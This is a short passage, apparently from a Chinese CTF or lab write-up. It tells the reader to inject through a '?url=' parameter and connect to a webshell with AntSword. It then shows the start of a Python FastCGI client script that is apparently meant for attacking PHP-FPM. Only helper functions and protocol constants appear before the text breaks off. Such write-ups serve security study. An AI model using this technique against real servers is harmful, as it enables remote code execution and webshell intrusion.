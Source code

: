?url=传进去,连接蚁剑

python脚本

```
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11
```